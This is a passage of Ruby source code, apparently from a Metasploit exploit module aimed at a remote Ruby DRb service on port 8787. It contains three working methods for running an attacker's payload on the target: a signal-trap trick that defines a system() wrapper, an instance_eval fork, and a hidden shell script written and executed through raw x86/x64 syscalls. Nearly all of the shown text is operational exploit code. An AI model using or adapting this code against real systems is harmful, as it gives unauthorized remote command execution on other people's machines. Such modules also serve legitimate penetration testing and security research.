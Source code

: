```ruby
        Opt::RPORT(8787)
      ]
    )
  end

  def method_trap(p)
    p.send(:trap, 23,
           :"class Object\ndef my_eval(str)\nsystem(str.untaint)\nend\nend")
    # Decide if this is running on an x86 or x64 target, using the kill(2) syscall
    begin
      pid = p.send(:syscall, 20)
      p.send(:syscall, 37, pid, 23)
    rescue Errno::EBADF
      # 64 bit system
      pid = p.send(:syscall, 39)
      p.send(:syscall, 62, pid, 23)
    end
    p.send(:my_eval, payload.encoded)
  end

  def method_instance_eval(p)
    p.send(:instance_eval, "Kernel.fork { `#{payload.encoded}` }")
  end

  def method_syscall(p)
    filename = '.' + Rex::Text.rand_text_alphanumeric(16)

    begin
      # Decide if this is running on an x86 or x64 target.
      # This syscall number is getpid on x86, which will succeed,
      # or writev on x64, which will fail due to missing args.
      j = p.send(:syscall, 20)
      # syscall open
      i = p.send(:syscall, 8, filename, 0o700)
      # syscall write
      p.send(:syscall, 4, i, "#!/bin/sh\n#{payload.encoded}\n", payload.encoded.length + 11)
      # syscall close
      p.send(:syscall, 6, i)
      # syscall fork
      p.send(:syscall, 2)
      sleep 2
      # syscall execve
      p.send(:syscall, 11, filename, 0, 0)
      print_status("attempting x86 execve of #{filename}")

    # likely x64
    rescue Errno::EBADF
      # syscall creat
      i = p.send(:syscall, 85, filename, 0o700)
      # syscall write
      p.send(:syscall, 1, i, "#!/bin/sh\n#{payload.encoded}\n", payload.encoded.length + 11)
      # syscall close
      p.send(:syscall, 3, i)
      # syscall fork
      p.send(:syscall, 57)
      sleep 2
      # syscall execve
      p.send(:syscall, 59, filename, 0, 0)
      print_status("attempting x64 execve of #{filename}")
    end

    register_file_for_cleanup(filename) if filename
  end
```